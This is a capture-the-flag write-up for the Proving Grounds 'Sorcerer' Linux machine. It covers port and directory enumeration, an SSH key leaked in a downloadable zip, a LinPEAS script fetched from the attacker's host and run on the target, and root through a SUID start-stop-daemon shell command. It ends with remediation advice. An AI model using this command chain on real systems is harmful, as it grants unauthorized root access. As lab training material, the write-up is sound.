| **Details**    | **Values**                    |
| :------------- | :---------------------------- |
| **Platform**   | `Proving Grounds`             |
| **Machine**    | `Sorcerer`                    |
| **Difficulty** | `Medium`                      |
| **OS**         | `Linux`                       |
| **Key Skills** | `SUID`, `Web Enumeration`     |
| **Tools Used** | `Nmap`, `Gobuster`, `LinPEAS` |

---
## Overview
The Sorcerer machine was a medium-difficulty Linux target on Proving Grounds.  
- **Initial foothold** web server leaks to gain an initial foothold via port `7742` `/zipefiles` directory. which led to downloading .zip file `max.zip` contained `ssh` private key.
- **Privilege escalation** was achieved by exploiting a misconfigured SUID binary (`/usr/sbin/start-stop-daemon`), which allowed execution of arbitrary commands as root.  
- This resulted in complete system compromise, including access to both the local and root flags.  

The machine highlights common real-world misconfigurations: web server leaks, sensitive files in archives, and dangerous SUID binaries.  

## 1. Reconnaissance

### 1.1 Nmap Enumeration
I began with an Nmap scan to enumerate open ports and services.

```bash
nmap -sC -sV -T4 -oA scans/nmap_initial $ip
```
## Findings:

| Port | Service | Version             |
| --------- | ------- | ------------------- |
| 80   | http    | nginx               |
| 22   | ssh     | openSSH 7.9         |
| 111  | rpcbind | 2-4                 |
| 2049 | nfs     |                     |
| 8080 | http    | Apache Tomcat 7.0.4 |
| 7742 | http    |  unkown             |




## 2. Enumeration
### 2.1 [80] HTTP Enumeration
The HTTP service on port 80 displayed a blank page with no useful content.


### 2.2 [8080] HTTP Enumeration
After discovering port 8080 running Apache Tomcat 7.x, I enumerated directories with Gobuster.  This revealed `/manager`, which typically exposes a Tomcat Manager login panel but in this case it was just a `403` Access denied page. The discovered credentials were not utilized for further exploitation on this machine.

**Findings**
- Gobuster
```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://192.168.128.100:8080 -o gobuster.log

```
- /manager directory  shows some information.
	- user:`tomcat`
	- pass:`s3cret`
   


### 2.3 [7742] Enumeration
**Findings**
- The port`7742` has a log in portal. 
- Common users and password lead to nowhere so I starting using gobuster to find more directories and found `/zipfiles` directory. 


```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://192.168.128.100:7742
```



**Findings**:
- francis.zip
- `max.zip`
- miriam.zip
- sofia.zip

Out of these `max.zip` had some interesting files 
```bash
unzip max.zip
cd home
tree -a -f
```


**Findings:**
- During enumeration of the target system, an SSH private key file (`/home/max/.ssh/id_rsa`) was discovered. This key provides passwordless authentication for the user `max`.
  


## Initial Foothold 

1. Log in as `max` using the downloaded `id_rsa` private key
```bash
ssh -i id_rsa max@192.168.128.100
```
Login success and found the `local.txt` file under the` /home/dennis `



## Privilege Escalation
- Upload the `linpeas.sh` to the target host.
```bash
python3 -m htt.server -d . # same directory as linpeas.sh
```
```bash
wget http://<kali-ip>:8000/linpeas.sh linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

**Findings**:
- **Linpeas flagged **SUID binaries** (setuid root programs). These are often exploitable to escalate privileges.
  


###  Common/ usually safe SUID binaries (ignore unless kernel-specific exploit exists):
- `/usr/bin/passwd`
- `/usr/bin/su`
- `/usr/bin/mount`, `/usr/bin/umount`
- `/usr/bin/newgrp`, `/usr/bin/chfn`, `/usr/bin/chsh`, `/usr/bin/gpasswd`
- `/usr/lib/openssh/ssh-keysign`
- `/usr/lib/dbus-1.0/dbus-daemon-launch-helper`

### More Interesting:
- `/usr/sbin/start-stop-daemon`
- `/usr/bin/fusermount`
- `/usr/sbin/mount.nfs`
- `/usr/bin/vmware-user-suid-wrapper`
These aren’t always default and sometimes have privilege escalation exploits.
## GTFOBins
https://gtfobins.github.io/
- ### SUID
	If the binary has the `SUID` bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```bash
    sudo install -m =xs $(which start-stop-daemon) .
    ./start-stop-daemon -n $RANDOM -S -x /bin/sh -- -p
```
The `start-stop-daemon` utility was found to be misconfigured on the target system. This binary is typically used to control the starting and stopping of system services. However, due to improper configuration (such as being marked with the SUID bit or having overly permissive file permissions), it can be exploited by a local attacker to escalate privileges.

When executed with elevated privileges, `start-stop-daemon` can be abused to spawn arbitrary processes as the root user. This effectively bypasses normal user restrictions and grants the attacker full control of the operating system.

### Evidence
- path of binary `/usr/sbin/start-stop-daemon`
- Permissions
```bash
-rwsr-xr-x 1 root root 44K Jun  3  2019 /usr/sbin/start-stop-daemon
```

- Verification of privilege escalation
```bash
/usr/sbin/start-stop-daemon -n $RANDOM -S -x /bin/sh -- -p
```



**Root Flag**


## Impact
An attacker with local access can leverage the misconfigured `start-stop-daemon` binary to gain root-level privileges. This compromises the confidentiality, integrity, and availability of the entire system.

## Recommendation
- Remove the SUID bit from `start-stop-daemon` unless explicitly required:
    `chmod u-s /usr/sbin/start-stop-daemon`
- Review file permissions of binaries and restrict them to only what is necessary.
- Regularly audit systems for unauthorized SUID/SGID binaries using tools such as `find` or `linpeas`.
